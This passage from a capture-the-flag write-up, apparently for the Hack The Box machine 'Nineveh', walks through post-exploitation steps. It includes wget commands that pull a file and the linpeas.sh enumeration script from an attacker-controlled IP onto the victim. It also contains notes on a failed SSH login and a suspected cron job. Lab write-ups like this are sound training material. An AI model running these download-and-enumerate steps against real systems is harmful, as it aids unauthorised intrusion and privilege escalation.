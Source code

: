 ![](./IMG/52.png)
- The local hosts file in victim shows 
```
127.0.0.1 nineveh.htb nineveh
```

![](./IMG/53.png)
- Upload it to victim

```
cd /var/tmp
wget http://10.10.17.145:9797/nineveh
```
- Try to ssh login --> Failed

![](./IMG/54.png)
- Upload linux enumerate shell and execute it
```
wget http://10.10.17.145/linpeas.sh
```
- Find a bunch of report path which be modifeied in last 5 mins
- I think the file modify automatically, it might be set up in crontab
